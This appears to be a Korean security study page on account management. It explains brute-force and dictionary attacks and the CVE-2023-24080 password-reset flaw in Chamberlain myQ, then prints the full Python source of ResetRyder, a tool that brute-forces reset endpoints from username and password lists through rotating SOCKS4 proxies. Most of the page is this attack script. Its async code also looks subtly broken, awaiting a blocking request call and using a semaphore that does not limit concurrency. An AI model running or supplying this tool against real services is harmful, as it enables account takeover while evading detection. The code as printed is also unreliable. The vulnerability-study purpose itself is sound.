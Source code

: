 ```yaml
---
description: 1. 계정 관리
---
```


# 01.계정 관리

※ 무작위 대입 공격(Brute Force Attack): 특정한 암호를 풀기 위해 가능한 모든 값을 대 입하는 공격 방법&#x20;

※ 사전 대입 공격(Dictionary Attack): 사전에 있는 단어를 입력하여 암호를 알아내거나 암호를 해독하는 데 사용되는 컴퓨터 공격 방법



2023년 2월, CVE-2023-24080 취약점을 참고하여 만든 [resetryder](https://github.com/SirCryptic/resetryder) tool을 이용하여 무차별 대입 로그인 통신 과정을 알아보았다.



**CVE-2023-24080이란 무엇인가?**

Chamberlain myQ v5.222.0.32277(iOS)의 비밀번호 재설정 엔드포인트에서는 속도 제한이 없는 취약점이 발견 되었고 이 취약점은 공격자가 무차별 대입 공격을 통해 사용자 계정을 손상시킬 수 있는 취약점이다.



1. 공격자는 피해자의 이메일 계정에 대한 사전 지식이 필요합니다. 또는 이  취약점을 발견한 사람처럼 공격자는 피해자의 계정이 있는지 확인하기 위해 다음 End point에 반복적으로 요청을 할 수 있다.

```
POST /api/Account/ForgotPassword

```

2. 아래는 존재하지 않는 계정인 jim@brackish.io 의 base 64 인코딩 버전이다 . 계정이 있는 경우 이 매개변수는 Location 응답 헤더에 없다 . 피해자의 이메일이 발견되면 계정 탈취는 간단하다. 이 취약점의 핵심은 속도 제한이 없다는 것이다.

```
email=amltQGJyYWNraXNoLmlv
```



3. 이 요청의 본문에는 (다른 매개 변수 중에서) 피해자에게 이메일로 전송되는 재설정 코드가 포함되어 있다.&#x20;

```
Code=5308
```

<figure><img src="../.gitbook/assets/image.jpg" alt=""><figcaption><p>수천 건의 요청 후 재설정 코드가 적중되면 302 응답</p></figcaption></figure>



재설정 코드는 길이가 4자리에 불과하며 이 End point에는 속도 제한이 없다. 공격자는 자유롭게 이 코드를 무차별 대입하고 피해자의 암호를 재설정 할 수 있다. 이 문제는 2023년 1월 10일에 Chamberlain에 보고되었다.

출처 : [https://nvd.nist.gov/vuln/detail/CVE-2023-24080](https://nvd.nist.gov/vuln/detail/CVE-2023-24080http:/web.archive.org/web/20230122144550/https://brackish.io/chamberlain-myq-account-takeover/)[
\
http://web.archive.org/web/20230122144550/https://brackish.io/chamberlain-myq-account-takeover/
](https://nvd.nist.gov/vuln/detail/CVE-2023-24080http:/web.archive.org/web/20230122144550/https://brackish.io/chamberlain-myq-account-takeover/)



그러면 이 취약점을 응용하여 만든 툴을 사용해보자

**ResetRyder - Open Source Brute Force Password Reset Tool**

이 있는데 이 Tool이 CVE-2023-24080 취약점을 응용한 툴이다.

<figure><img src="../.gitbook/assets/image2.jpg" alt=""><figcaption><p><a href="https://github.com/SirCryptic/resetryder">https://github.com/SirCryptic/resetryder</a></p></figcaption></figure>



아래에는 해당 tool의 python3 code이다.

```
import time
import requests
import random
import argparse
import asyncio

# Developer: SirCryptic (NullSecurityTeam)
# Info:      ResetRyder - Brute force password reset tool - By NullSecurityTeam
# Note/s:    Based on CVE-2023-24080 not only just for Chamberlain myQ v5.222.0.32277 (on iOS)
#            This code will work for any web application that has a similar vulnerability.
#            The author of this script is not responsible for any damage caused by the use or misuse of this script. 
#            These PoCs are intended for educational and research purposes only, and should never be used to target or exploit systems without explicit permission from the owner.

password_list_path = ""
username_list_path = ""
reset_password_url = ""
rate_limit_time = 1
proxy_list_path = ""
max_retries = 3
max_timeout = 10
max_concurrent_requests = 10

parser = argparse.ArgumentParser(description="ResetRyder - Brute force password reset tool - By NullSecurityTeam")
parser.add_argument("-p", "--password_list", required=True, help="Path to the password list file")
parser.add_argument("-u", "--username_list", required=True, help="Path to the username list file")
parser.add_argument("-r", "--reset_password_url", required=True, help="Reset password URL")
parser.add_argument("-t", "--rate_limit_time", type=int, default=1, help="Rate limiting time in seconds (e.g., 1)")
parser.add_argument("-x", "--proxy_list", required=True, help="Path to the SOCKS4 proxy list file")
parser.add_argument("-a", "--max_retries", type=int, default=3, help="Maximum number of retries for failed requests")
parser.add_argument("-o", "--max_timeout", type=int, default=10, help="Maximum timeout for requests in seconds")
parser.add_argument("-c", "--max_concurrent_requests", type=int, default=10, help="Maximum number of concurrent requests")
args = parser.parse_args()

password_list_path = args.password_list
username_list_path = args.username_list
reset_password_url = args.reset_password_url
rate_limit_time = args.rate_limit_time
proxy_list_path = args.proxy_list
max_retries = args.max_retries
max_timeout = args.max_timeout
max_concurrent_requests = args.max_concurrent_requests

with open(password_list_path, "r") as f:
    password_list = [line.strip() for line in f]

with open(username_list_path, "r") as f:
    username_list = [line.strip() for line in f]

with open(proxy_list_path, "r") as f:
    proxy_list = [line.strip() for line in f]

headers = {
    "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/58.0.3029.110 Safari/537.3"
}

async def reset_password(username, password):
    for i in range(max_retries):
        payload = {"username": username, "new_password": password, "confirm_new_password": password}
        proxy = {"socks4": proxy_list[random.randint(0, len(proxy_list) - 1)]}
        try:
            response = await asyncio.wait_for(requests.post(reset_password_url, headers=headers, data=payload, proxies=proxy, timeout=max_timeout), timeout=max_timeout)
            if "password reset successful" in response.text.lower():
                print(f"Password reset successful for user {username}. New password: {password}")
                return True
            else:
                print(f"Password reset failed for user {username} and password: {password}")
        except:
            pass
    return False

async def main():
    tasks = []
    semaphore = asyncio.Semaphore(max_concurrent_requests)
    async with semaphore:
        for username in username_list:
            for password in password_list:
                task = asyncio.create_task(reset_password(username, password))
                tasks.append(task)
                await asyncio.sleep(rate_limit_time)
    results = await asyncio.gather(*tasks)
    print(f"Total requests: {len(results)}, Successful requests: {sum(results)}")

asyncio.run(main())
```



